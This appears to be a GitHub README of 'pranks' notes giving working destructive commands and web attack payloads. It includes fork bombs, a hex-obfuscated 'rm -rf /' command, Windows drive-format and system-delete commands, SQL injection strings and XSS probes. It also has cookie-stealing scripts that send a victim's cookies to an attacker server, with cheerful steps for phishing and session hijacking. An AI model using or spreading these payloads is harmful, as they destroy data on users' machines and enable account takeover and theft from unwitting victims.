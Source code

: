# pranks
These are my notes on bad things that can happen.  The focus here is programmatic stuff, if application security is your thing then you should check out OWASP Top 10 documentation!  [Click here for the 2017 version of that.](https://www.owasp.org/images/7/72/OWASP_Top_10-2017_%28en%29.pdf.pdf)
  
## Terminal Commands
For use in a terminal or a command prompt or something  
  
### Fork Bomb
A form of DOS (denial of service) attack.  
The process continually replicates itself to deplete available system resources.  
In shell, it looks like this:  
```shell
:(){ :|: & };:
```
Also possible in C like this:
```c
int main() {
    while(1)
        fork();
    return 0;
}
```
### Deletion
First off, here are some hex shenanigans:
```shell
$(echo 7375646f20726d202d7266202f202d2d6e6f2d70726573657276652d726f6f74 | xxd -r -p)
```
This is hexidecimal, but converted to ascii its:
```shell
sudo rm -rf / --no-preserve-root
```
Which will delete everything from the selected directory.  
This does the same thing in Windows (maybe):  
```shell
Format C: /q /y
```
Supposedly delete windows, but windows will probably try to stop you  
idk I never actually tested it lol
```shell
rd /s /q c:\windows
```
## Stuff for username fields and search bars
For use in the event that you suspect certain technology is being used and want to check.
### SQL Injection
May be able to return all info from users table depending on the db
```SQL
anything';SELECT * FROM users WHERE 't' = 't
```
Error based injection - sql injection to provoke an error message, hopefully revealing sensitive information like db type, etc.  
Should create a statement that's always true and note out the rest of the code with the `--` at the end.
```SQL
SELECT * FROM users WHERE id = 1 OR 1 = 1--
```
Perhaps the application is detecting that you're using a sql injection and is giving you a generic error or no error in response.  If you want to check so see if the sql injection is being processed, try adding a time delay.
```SQL
if (is_srvrolemember('sysadmin') > 0) waitfor delay '0:0:5'
```
^That's for SQLServer, use `SLEEP(seconds)` for MySQL 5
### Cross-Site Scripting
Sometimes if you enter text into a searchbox and the page displays it, it may actually be injecting your input directly into the HTML of the page.  If that's happening, you can use <script> tags to inject code into the page.  Try the below code to see if XSS is possible:
```HTML
<script>alert("You'll see this text in an alert box if so");</script>
```
If you see the above input in plaintext, the page may be putting quotes around your input.  Add a `"` or `">` to the beginning and try again.  So what's the advantage of this?  Well not only can you make a page run script, but if the page displays your search in the URL then you could write your search, take the URL, and hex the search so that you could send the link to someone and they would not see your script unless they converted the hex back to ascii.
Use this converter: https://www.rapidtables.com/convert/number/ascii-to-hex.html
```
http://www.site.com/search.php?q="><script>alert("haxorz")</script>
would instead look like this
http://www.site.com/search.php?q=22%3e%3c%73%63%72%69%70%74%3e%61%6c%65%72%74%28%22%68%61%78%6f%72%7a%22%29%3c%2f%73%63%72%69%70%74%3e
```
This is the oldest trick in the book and is still pretty common, so if you ever recieve a link from ANYONE with a hexadecimal search query, I always recommend dropping it into a hex/ascii converter so you can inspect it just to be safe (Even if it's a website you trust).  Now simply send a million emails pretending to be someone's grandma asking how to buy a birthday present online and start stealing cookies!
### Cookie stealin
The next part of stealing cookies requires a bit more work.  First you'll need a PHP script (like the one in this repo).  Then make a file called `log.txt`.  You'll need to store the php and log files on a server (I'm not going to walk you though that part, everyone and their mom has their own server.  Ask google if you need help).  I use a Raspberry Pi for this purpose.  Your XSS injection should look something like this:
```HTML
"><script language= "JavaScript">document.location="http://yourServerIpOrDomainName.com/nameOfYourPhpScript.php?cookie=" + document.cookie;document.location="http://www.pageYouWantToExploit.com"</script>
```
This should log the cookie and then redirect the user back to the source page but if you notice this causes an infinite loop, you may need to modify it with an onclick event like this:
```HTML
"><a href="#" onclick="document.location='http://yourServerIpOrDomainName.com/yourServerIpOrDomainName.php?cookie=' +escape(document.cookie);"><Click here if you are not automatically redirected></a></script>
```
The resulting log file should look something like the one in this repo.
### What do I do with this cookie
Sometimes (on poorly made websites) your session id will be displayed in plaintext in the URL.  If that's the case, then accessing somebody else's session is as easy as replacing yours with theirs.  If that's not the case, then you could use a tool like Firebug to edit your cookie.
https://getfirebug.com/
Add or modify all your cookie's fields to match the data from the cookie in your log file and refresh the page.  Now you're logged in as your victim!  Hooray!
If you didn't already, then now you probably understand why web applications will sometimes require you to enter your password again before making changed to your account as this prevents the victim from being locked out of their own  account by a change that you make.
